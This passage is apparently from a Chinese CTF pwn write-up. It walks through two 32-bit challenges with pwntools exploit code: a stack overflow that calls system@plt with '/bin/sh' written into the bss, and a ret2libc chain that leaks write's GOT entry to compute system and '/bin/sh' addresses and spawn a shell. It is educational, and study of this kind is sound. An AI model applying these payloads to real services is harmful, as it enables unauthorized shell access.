 ![](https://img-blog.csdnimg.cn/20200305010546839.png)

这里的栈溢出， 还有一个name， 可以往bss段写入数据，

我们还可以看到system的plt表， 于是这个题目和level2基本相同，

```python
p.sendlineafter("name", "/bin/sh\x00")
payload = b'a'*0x26+b'a'*4+ p32(0x8048420) + p32(0x08048420) + p32(0x0804A080)
p.sendlineafter("here", payload)	
```

还是要注意这个中间占位的一个数据， 其实也可以写0.



# level3

![](https://img-blog.csdnimg.cn/20200305010558170.png)

只有一个栈溢出， 这次啥都没了，但是有个libc， 

我们去先使用write泄露出来libc中的地址，然后去得到libc中的system函数地址和'/bin/sh'地址， 就可以getshell，

主要的位置：

```python
write_plt = elf.symbols['write']
write_got = elf.got['write']

write_libc = libc.symbols['write']
sys_libc = libc.symbols['system']
sh_libc = next(libc.search(b'/bin/sh'))

ret_addr = 0x0804844b

payload1 = b'a'*140 + p32(write_plt) + p32(ret_addr) + p32(1) + p32(write_got) + p32(4)

p.sendlineafter('Input:\n', payload1)
write_addr = u32(cn.recv(4))
success(hex(write_addr))

sys_addr = write_addr - (write_libc - sys_libc)
sh_addr = write_addr - (write_libc - sh_libc)

payload2 = b'a'*140 + p32(sys_addr) + p32(ret_addr) + p32(sh_addr)

p.sendlineafter("Input:\n", payload2)

```

这个地方中间的占位数据就必须得是写好的一个地址，用于第一次write以后返回的地址， 这里我们设置到溢出的函数， 触发下一次的栈溢出。

# string
